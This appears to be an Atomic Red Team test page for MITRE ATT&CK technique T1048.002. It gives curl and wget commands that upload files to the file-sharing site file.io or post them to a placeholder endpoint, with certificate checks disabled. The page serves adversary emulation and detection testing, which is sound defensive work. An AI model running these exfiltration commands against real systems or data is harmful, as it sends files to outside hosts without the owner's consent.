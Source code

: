 # T1048.002 - Exfiltration Over Alternative Protocol - Exfiltration Over Asymmetric Encrypted Non-C2 Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1048/002)
<blockquote>

Adversaries may steal data by exfiltrating it over an asymmetrically encrypted network protocol other than that of the existing command and control channel. The data may also be sent to an alternate network location from the main command and control server. 

Asymmetric encryption algorithms are those that use different keys on each end of the channel. Also known as public-key cryptography, this requires pairs of cryptographic keys that can encrypt/decrypt data from the corresponding key. Each end of the communication channels requires a private key (only in the procession of that entity) and the public key of the other entity. The public keys of each entity are exchanged before encrypted communications begin. 

Network protocols that use asymmetric encryption (such as HTTPS/TLS/SSL) often utilize symmetric encryption once keys are exchanged. Adversaries may opt to use these encrypted mechanisms that are baked into a protocol. 

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data HTTPS using curl windows](#atomic-test-1---exfiltrate-data-https-using-curl-windows)

- [Atomic Test #2 - Exfiltrate data HTTPS using curl freebsd,linux or macos](#atomic-test-2---exfiltrate-data-https-using-curl-freebsdlinux-or-macos)

- [Atomic Test #3 - Exfiltrate data in a file over HTTPS using wget](#atomic-test-3---exfiltrate-data-in-a-file-over-https-using-wget)

- [Atomic Test #4 - Exfiltrate data as text over HTTPS using wget](#atomic-test-4---exfiltrate-data-as-text-over-https-using-wget)


<br/>

## Atomic Test #1 - Exfiltrate data HTTPS using curl windows
Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** Windows


**auto_generated_guid:** 1cdf2fb0-51b6-4fd8-96af-77020d5f1bf0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test file to upload | path | PathToAtomicsFolder/T1048.002/src/artifact|
| curl_path | path to curl.exe | path | C:&#92;Windows&#92;System32&#92;Curl.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{curl_path} -k -F "file=@#{input_file}" https://file.io/
```




#### Dependencies:  Run with `powershell`!
##### Description: Curl must be installed on system.
##### Check Prereq Commands:
```powershell
if (Test-Path #{curl_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://curl.se/windows/dl-8.4.0_6/curl-8.4.0_6-win64-mingw.zip" -Outfile "PathToAtomicsFolder\..\ExternalPayloads\curl.zip"
Expand-Archive -Path "PathToAtomicsFolder\..\ExternalPayloads\curl.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\curl"
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\curl\curl-8.4.0_6-win64-mingw\bin\curl.exe" C:\Windows\System32\Curl.exe
```
##### Description: #{input_file} must be exist on system.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{input_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{input_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1048.002/src/artifact" -OutFile "#{input_file}"
```




<br/>
<br/>

## Atomic Test #2 - Exfiltrate data HTTPS using curl freebsd,linux or macos
Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 4a4f31e2-46ea-4c26-ad89-f09ad1d5fe01





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test file to upload | path | PathToAtomicsFolder/T1048.002/src/artifact|


#### Attack Commands: Run with `bash`! 


```bash
curl -F 'file=@#{input_file}' -F 'maxDownloads=1' -F 'autoDelete=true' https://file.io/
```






<br/>
<br/>

## Atomic Test #3 - Exfiltrate data in a file over HTTPS using wget
Exfiltrate data over HTTPS using wget --post-file method

**Supported Platforms:** Linux


**auto_generated_guid:** 7ccdfcfa-6707-46bc-b812-007ab6ff951c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test data to upload | path | PathToAtomicsFolder/T1048.002/src/artifact|
| endpoint_domain | Endpoint to send data to | string | https://example.com/|


#### Attack Commands: Run with `sh`! 


```sh
wget --post-file="#{input_file}" --timeout=5 --no-check-certificate #{endpoint_domain} --delete-after
```






<br/>
<br/>

## Atomic Test #4 - Exfiltrate data as text over HTTPS using wget
Exfiltrate data over HTTPS using wget --post-data method

**Supported Platforms:** Linux


**auto_generated_guid:** 8bec51da-7a6d-4346-b941-51eca448c4b0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| endpoint_domain | Endpoint to send data to | string | https://example.com/|


#### Attack Commands: Run with `sh`! 


```sh
wget --post-data="msg=AtomicTestT1048.002" --timeout=5 --no-check-certificate #{endpoint_domain} --delete-after
```






<br/>
